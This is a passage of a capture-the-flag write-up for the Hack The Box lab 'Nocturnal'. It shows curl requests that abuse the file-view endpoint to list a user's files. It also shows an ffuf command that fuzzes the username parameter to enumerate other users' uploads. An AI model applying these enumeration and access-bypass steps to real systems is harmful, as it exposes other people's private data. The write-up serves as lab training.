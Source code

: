 Now we can access the web server at `http://nocturnal.htb/`.

![NON](file-20250813192640631.png)

We can see that there is a login page and a registration page. After registering a new user, we can log in with the credentials we just created and access the dashboard, giving us an option to upload files.

![NON](file-20250813192657200.png)

After trying to upload a file, we can see that there are several file types that are allowed.

![NON](file-20250813192755106.png)

![NON](file-20250813193316647.png)

Sending a legitimate `pdf` file works, trying to access the uploaded file, it shows us that we are accessing the file from the following path:

![NON](file-20250814013905450.png)

```bash
http://nocturnal.htb/view.php?username=<username>&file=<filename>
```

Let's see if we can enumerate our files by sending a non existing file in the file parameter.

![NON](file-20250814014103879.png)

![NON](file-20250814014137455.png)

```bash
curl -s 'http://nocturnal.htb/view.php?username=railoca&file=a' -b "PHPSESSID=k6elc3u7g4jtqndpro71aa9ioj" |html2text

curl -s 'http://nocturnal.htb/view.php?username=railoca&file=.pdf' -b "PHPSESSID=k6elc3u7g4jtqndpro71aa9ioj" |html2text
```

We can enumerate the files by sending a non-existing file in the `file` parameter. This gives us a list of files that are present for that user, which is `railoca` in this case. We can fuzz the `username` parameter to see if we can enumerate other users and their files. From our request, we can see that we receive a response with the text "Available files for download" when the file exists, so we can use `ffuf` to fuzz the `username` parameter with a list of usernames. 

```bash
ffuf -u 'http://nocturnal.htb/view.php?username=FUZZ&file=.pdf' -b 'PHPSESSID=o857qrkea25jq7ff6i6p3tb26u' -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -ic -c -mr "Available files for download"
```
> Command Breakdown:
> - `-u`: Specifies the URL to fuzz.
> - `-b`: Sets the cookie for the session.
> - `-w`: Specifies the wordlist to use for fuzzing.
> - `-ic`: Ignores case in the response.
> - `-c`: Enables colored output.
> - `-mr`: Matches the response with the specified regex.
{: .prompt-info}
